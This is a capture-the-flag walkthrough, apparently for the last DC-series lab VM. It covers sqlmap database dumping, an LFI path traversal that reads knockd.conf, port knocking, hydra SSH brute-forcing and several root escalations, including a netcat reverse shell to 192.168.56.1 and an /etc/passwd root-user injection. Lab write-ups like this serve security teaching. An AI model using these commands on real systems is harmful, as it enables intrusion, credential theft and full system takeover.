## Nmap



Only HTTP service is running. So a simple start, lets begin enumerating HTTP service.

***

## HTTP



So this looks like a drupal website but it's actually not. It's just simple php website.

I started to look around but couldn't find anything interesting. I mean there wasn't any URL parameter to test for sql or anything as such.

On the search page there is a box to enter search query, I decided to test that for the SQLi.

Send any query via box and capture that request using burp, then save that query to a file called `sql.txt` and pass that text file to `sqlmap`.

This is how the sql.txt file looked like:



Now we can run `sqlmap -r sql.txt`



we can see that it's vulnerable to SQLi. So now we can list all the databases and see if we can find any login credentials.

```bash
➜ sqlmap -r /home/mzfr/sql.txt --dbs
```



Then I ran

```bash
➜ sqlmap -r /home/mzfr/sql.txt -D Staff --dump
```



`a9cb430b8b1d44c3476234ef3f779442:admin`

We can crack the hash using [hashkiller](https://hashkiller.co.uk/Cracker).



so now we have admin credentials `admin:truck`(`transorbital1`) I was able to login using those but there wasn't much we could do after login because the only new thing that admin could do was `add records`.

__NOTE: The password for admin would be `transorbital1`, the first draft of the VM had truck as the password but for the final version the password `transorbital1`__

So then I decided to dump the `users` db using `sqlmap`

```bash
➜ sqlmap -r /home/mzfr/sql.txt -D users --dump
```



Now the issue is that there is no way to login even though we have the credentials, so I started exploring more. One thing I noticed after we login as `admin` we get this error in the footer section stating `File does not exist` this gave me a hint about usage of `include()` in PHP which might be exploitable for LFI.



But the issue was that I didn't see any parameter in the URL so I decided to test it with the most common/obvious one i.e `file`.



Since we have the LFI we need to find something that might either allow us a reverse shell or may guve some more information about what to do with those credentials.

After looking around I found out that there was `knockd.conf` present meaning we can read that using LFI and then use those credentials to login via SSH.

If we visit `IP/manage.php?file=../../../../../../../../etc/knockd.conf` we can see the content of the `knockd.conf` and the sequence to open SSH is `7469,8475,9842`



You can use anything to do knock I usually prefer this simple one liner

```bash
➜ for x in 7469 8475 9842; do nmap -Pn --max-retries 0 -p $x 192.168.56.144; done
```



Now we have the SSH open we just need to narrow down the correct credentials for SSH login. For that I made a file named `users.txt` that had `username` and `password.txt` that had all the passwords. Then I used hydra to check if any of those were valid SSH logins.

I got hit on 3 of them:



```
chandlerb:UrAG0D!
joeyt:Passw0rd
janitor:Ilovepeepee
```


## Privilege escalation

I used the janitor user account to login and in his home directory I found a hidden directory named `.secrets-for-putin`.



And in that directory there was a file named `passwords-found-on-post-it-notes.txt`



I then took all these password and placed them in the `password.txt` I created previously and re-started the ssh attack and then I found a new valid password which was for user `fredf`



I `su` to `fredf` account and then checked it's `sudo rights` and it's



We see we can run `/opt/devstuff/test/test`. So I executed that but I couldn't see any output or anything. Then I found file named `test.py` in `/opt/devstuff/test/` and it had the following code:

```python
#!/usr/bin/python

import sys

if len (sys.argv) != 3 :
    print ("Usage: python test.py read append")
    sys.exit (1)

else :
    f = open(sys.argv[1], "r")
    output = (f.read())

    f = open(sys.argv[2], "a")
    f.write(output)
    f.close()
```

We see that it take 2 arguments, first one is the file it reads and second one the file it rights to. Now the exploit here is that it's `appending` data to the script `as root`, meaning we can make a file that have something like `/bin/bash` or `nc -e /bin/sh [IP] [PORT]`. Also there are the following easy ways:

1.  Append to /etc/sudoers
2.  Append an entry to /etc/passwd

The best would be to add an entry to `/etc/passwd` with a new `root` user whose password would be `password`.

```bash
echo 'mzfr:sXuCKi7k3Xh/s:0:0::/root:/bin/bash' > /tmp/hack
sudo ./test /tmp/hack /etc/passwd
su mzfr
Password: toor
```

The very first echo command makes a user name `mzfr` with password `toor`. Then we run the script as root to add that new entry from `/tmp/hack` to `/etc/passwd` and then we switch to that account.



If you are interested in how this machine was supposed to end on it's 1st and 2nd `beta testing phase` then you can continue to read.

#### Privilege Escalation (Test 2)

**This is how the privilege escalationw as supposed to be in Test 2**

After becoming `fredf` we check his sudo right:



We see we can run `/opt/devstuff/test/test`. So I executed that but I couldn't see any output or anything. Then I found file named `test.py` in `/opt/devstuff/test/` and it had the following code:

```python
#!/usr/bin/python

bashCommand = "/bin/sh"
import subprocess
process = subprocess.Popen(bashCommand.split(), stdout=subprocess.PIPE)
output, error = process.communicate()
```

If this is the code that `test` binary is running then that means we will have to some how do some redirects to be able to see the output. So we can do something like:

```bash
cp /bin/sh /tmp/shell
chmod 4755 /tmp/shell
```

Then go to `/tmp` and run `./shell -p` to get a proper root shell.



#### Privilege Escalation (Test 1)

**This is how the privilege escalationw as supposed to be in Test 1**

I used the janitor user account to login and in his home directory I found a hidden directory named `.secrets-for-vlad`



And in that directory there was a file named `passwords-found-on-post-it-notes.txt`


I then took all these password and placed them in the `password.txt` I created previously and re-started the ssh attack and then I found a new valid password which was for user `scoot`



I `su` to `scoots` account and then checked it's `sudo rights` and it's allowed to run `mail` or `nc` as root.

So we can get root shell in the following manner:

__using mail__

```bash
sudo mail --exec='!/bin/sh'
```

__using nc__

```bash
sudo nc -e /bin/sh 192.168.56.1 4444
```
and you'll have root shell on your listener.


***

It was nice machine, initial foothold might be a bit confusing in the starting as the website exactly looks like a drupal but once you figure out the SQLi and have figure out that we need to read `knockd.conf` using LFI, it's all easy that point.

__Fun Fact__: LFI wasn't the part of the machine during first 2 test, it was added on the final version.

Thanks to [@DCUA7](https://twitter.com/DCAU7) for making this VM and letting me beta test it ;-)
Sad part is that this will be the last CTF in the DC series 😢

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
